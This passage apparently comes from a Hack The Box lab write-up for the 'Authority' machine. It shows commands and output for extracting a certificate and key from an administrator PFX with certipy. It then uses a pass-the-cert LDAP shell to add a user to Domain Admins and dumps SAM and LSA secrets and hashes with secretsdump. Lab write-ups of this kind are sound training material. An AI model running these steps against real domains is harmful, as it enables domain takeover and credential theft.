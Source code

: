 Normally the `PKCS #12` archive file could be used directly to get domain admin hashes or Kerberos tickets but in this box, it was not working. So had to switch to `pass-the-cert` attack. 

The certificate and key can be separated from the extracted from the `PKCS #12 (pfx)` archive file.

```bash
(venv) ┌─[noob@parrot]─[~/htb/authority/rdp]
└──╼ $certipy cert -pfx administrator.pfx -nokey -out admin.crt
Certipy v4.8.0 - by Oliver Lyak (ly4k)

[*] Writing certificate and  to 'admin.crt'
(venv) ┌─[noob@parrot]─[~/htb/authority/rdp]
└──╼ $certipy cert -pfx administrator.pfx -nocert -out admin.key
Certipy v4.8.0 - by Oliver Lyak (ly4k)

[*] Writing private key to 'admin.key'
```

One way for dumping hashes and gaining domain admins was adding ourselves to domain admins or granting `DCSYNC` rights to attacker-controlled users. Since both are relatively new, I have covered both ways in the write-up.

```jsx
(venv) ┌─[✗]─[noob@parrot]─[~/htb/authority/notes/certs]
└──╼ $python3 passthecert.py -action ldap-shell -crt admin.crt -key admin.key -domain authority.htb -dc-ip 10.10.11.222 
Impacket v0.11.0 - Copyright 2023 Fortra

Type help for list of commands

# add_user_to_group svc_ldap "Domain Admins"
Adding user: svc_ldap to group Domain Admins result: OK

#
```

Dumping domain hashes with `secretsdump.py`. 

```jsx
┌─[noob@parrot]─[~/htb/authority/notes/certs]
└──╼ $secretsdump.py 'svc_ldap:lDaP_1n_th3_cle4r!@authority.htb'
Impacket v0.10.1.dev1+20230504.43204.0bdad34a - Copyright 2022 Fortra

[*] Target system bootKey: 0x31f4629800790a973f9995cec47514c6
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:a15217bb5af3046c87b5bb6afa7b193e:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[-] SAM hashes extraction for user WDAGUtilityAccount failed. The account doesn't have hash information.
[*] Dumping cached domain logon information (domain/username:hash)
[*] Dumping LSA Secrets
[*] $MACHINE.ACC 
HTB\AUTHORITY$:aes256-cts-hmac-sha1-96:d9eeaa12af484646fdc30d2a6d5b10abb90419f2d67636c0f225b98860ef8a67
HTB\AUTHORITY$:aes128-cts-hmac-sha1-96:988f7118e6216de57982e2ad1bf64bfc
HTB\AUTHORITY$:des-cbc-md5:4946616e0d43f1a1
HTB\AUTHORITY$:plain_password_hex:8c79a9d42ec010204f2858165f2129a9681bf557946a6d2c072c50a8c3eebbd35a5233f6cfa8b4ff8336bafb990d9c2cdbaaf96172582dee05387e31697a642aa2532e2626b09938aa3cc8c3d2ca3b8568bf6dd6ecd3e07500879b8e1c9df1eebfe1475c67736dd20b09656412be2915663a9ee6330678a00e7efa331330bc29f3e3f9550e0c86d27db3f20a04bc9f130d625c2e89972e0084c340a323aaa49e3a679aca9083fa5e166cbf4011027f2d9f363e3572e79e44a42acd9219b37dd1804eb80c1cfafce1a2cc6ffa1fa563ba3bc9763082241f4440ee138fdbf1669576616a6b4e4de2fed59bba6c7265abd4
HTB\AUTHORITY$:aad3b435b51404eeaad3b435b51404ee:fd46a391cd96241d31c6cf3402c4c365:::
[*] DPAPI_SYSTEM 
dpapi_machinekey:0xd5d60027f85b1132cef2cce88a52670918252114
dpapi_userkey:0x047c1e3ad8db9d688c3f1e9ea06c8f2caf002511
```